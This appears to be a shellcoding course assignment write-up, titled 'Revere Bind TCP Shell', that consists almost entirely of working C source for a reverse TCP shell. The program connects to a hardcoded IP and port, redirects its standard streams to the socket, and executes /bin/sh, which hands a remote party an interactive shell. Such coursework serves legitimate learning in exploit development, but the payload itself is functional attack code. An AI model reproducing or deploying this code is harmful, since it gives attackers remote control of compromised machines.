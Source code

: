 Assignment #2: Revere Bind TCP Shell
====================================

Instructions:
-------------
* Reverse connect to configured IP and Port
* Exec /bin/sh on successful connection
* IP and Port should be easily configurable

PoC:
----

```
int main(void){
	int fd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");
	
	//socket
	fd = socket(AF_INET, SOCK_STREAM, 0);
	
	//connect
	connect(fd, (struct sockaddr *)&server_addr, 16);
	
	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(fd, 0);
	dup2(fd, 1);
	dup2(fd, 2);
	
	//execve /bin/sh
	execve(argv[0], &argv[0], NULL);
	
	return 0;
}
```
